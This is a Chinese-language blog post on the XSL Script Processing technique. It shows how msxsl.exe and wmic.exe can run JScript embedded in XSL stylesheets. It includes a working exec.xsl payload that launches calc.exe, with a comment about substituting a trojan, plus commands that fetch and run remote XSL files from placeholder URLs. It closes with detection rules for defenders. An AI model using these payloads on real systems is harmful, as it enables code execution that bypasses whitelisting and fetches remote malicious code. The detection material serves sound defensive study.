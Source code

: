 # XSL Script Processing


XSL是指扩展样式表语言(Extension Stylesheet Language)



`msxsl.exe`是微软用于命令行下处理XSL的一个程序，所以通过他，我们可以执行JavaScript进而执行系统命令，下载地址：https://www.microsoft.com/en-us/download/details.aspx?id=21714

执行该工具需要用到2个文件，分别为`XML`及`XSL`文件，msxsl命令行接受参数形式如下：

```bash
msxsl.exe {xmlfile} {xslfile}

# 调用文件内的命令
msxsl.exe {xslfile} {xslfile}
```



### 命令执行

#### 技术复现（MSXSL.EXE）

##### 本地执行

test.xml

```xml
<?xml version="1.0"?>

<?xml-stylesheet type="text/xsl" href="exec.xsl" ?>

<customers>

<customer>

<name>Microsoft</name>

</customer>

</customers>
```

exec.xsl

```xml
<?xml version="1.0"?>

<xsl:stylesheet version="1.0"

xmlns:xsl="http://www.w3.org/1999/XSL/Transform"

xmlns:msxsl="urn:schemas-microsoft-com:xslt"

xmlns:user="http://mycompany.com/mynamespace">

 

<msxsl:script language="JScript" implements-prefix="user">

   function xml(nodelist) {

var r = new ActiveXObject("WScript.Shell").Run("cmd /c calc.exe");

    //这里可以改造为执行你的木马文件如：

	// var r = new ActiveXObject("WScript.Shell").Run("cmd /k cd c:\ & shell.exe");

   return nodelist.nextNode().xml;

 

   }

</msxsl:script>

<xsl:template match="/">

   <xsl:value-of select="user:xml(.)"/>

</xsl:template>

</xsl:stylesheet>
```

执行

```bash
msxsl.exe test.xml exec.xsl
```





##### 远程执行

```bash
msxsl.exe https://raw.githubusercontent.com/xx/master/test.xml  https://raw.githubusercontent.com/xx/master/exec.xsl


```







#### 技术复现（WMIC.EXE）

wmic可通过如下方式执行xsl内的恶意代码

```bash
wmic.exe {wmic_cmd} /FORMAT:{xsl_file}
```

##### 本地执行

```bash
wmic.exe process get name /format:exec.xsl
```



##### 远程执行

```bash
wmic.exe process get name /format:http:/www.xxx.com/exec.xsl
```



https://www.cnblogs.com/backlion/p/10489916.html



### 威胁检测

**数据源：** 进程监视、进程命令行参数、网络的进程使用、DLL监视

#### msxsl.exe

进程特征：

```bash
# 当msxsl.exe作为父进程创建其他进程时视为可疑
ParentImage regex '^.*msxsl\.exe$'
```

加载项特征：

```bash
#当msxsl.exe加载jscript.dll时视为可疑
Image regex '^.*msxsl\.exe$' AND ImageLoaded contains 'jscript.dll'
```



#### wmic.exe

加载项特征

```bash
#当wmic.exe加载jscript.dll时视为可疑
Image regex '^.*wmic\.exe$' AND ImageLoaded contains 'jscript.dll'
```



### 通过MSXSL方式进行鱼叉式网络钓鱼

有年头的参考文章：https://www.anquanke.com/post/id/159316







---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://shuai06.github.io/xsl-script-processing/  

